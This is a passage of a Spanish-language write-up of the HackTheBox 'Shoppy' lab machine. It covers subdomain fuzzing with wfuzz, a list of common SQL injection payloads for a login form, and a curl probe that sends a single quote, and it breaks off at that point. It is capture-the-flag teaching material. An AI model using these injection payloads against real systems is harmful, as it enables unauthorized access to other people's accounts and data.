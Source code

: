 ```
Hay varios con el mismo nombre de ```login``` pero realmente todos ingresan a lo mismo, a esta pestaña de login:

![](/assets/img/shoppy/shoppy2.png)

### Fuzzing de subdominios

Nunca esta de mas ver si hay subdominios en el dominio web, asi que con wfuzz podemos hacerlo, ingresando el comando:

```wfuzz -u 'http://shoppy.htb/' -H 'Host: FUZZ.shoppy.htb' -t 100 -w /usr/share/wordlists/bitquark-subdomains-top100000.txt --hh=169```

Este comando es similar al anterior, solo que ahora con ```--hh=169``` le indicamos que oculte las respuesta con una longitud de 169, y el 169 es por que esa es la longitud de caracteres de un subdominio incorrecto.

Al final solo descubrio un subdominio (tambien los debemos de agregar a los hosts):

```000047340:   200        0 L      141 W      3122 Ch     "mattermost"```

El subdominio es: ```mattermost```

El cual es otra pestaña de login:

![](/assets/img/shoppy/shoppy3.png)

## Flag de user

Ahora toca buscar y explotar vulnerabilidades para conseguir la primera flag. Empezaro con el primer dominio que encontramos: ```http://shoppy.htb/login```, como tenemos un login, lo mas comun es probar inyecciones SQL, podemos probar con los payloads mas comunes para SQL injection, como estos:

```
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
```
Y dependiendo de la respuesta sabremos de que se trata, en mi caso simplemente le mandare una comilla al input del usuario, y encontraseña lo que sea (pueden usar BurpSuite o curl, en mi caso usare curl por que tengo muchas cosas abiertas, y el Burp hace que me pete la patata de compu que tengo jajaja)

Con curl lanzare la siguiente peticion:

```curl shoppy.htb/login -id "username='&password=12345"```

```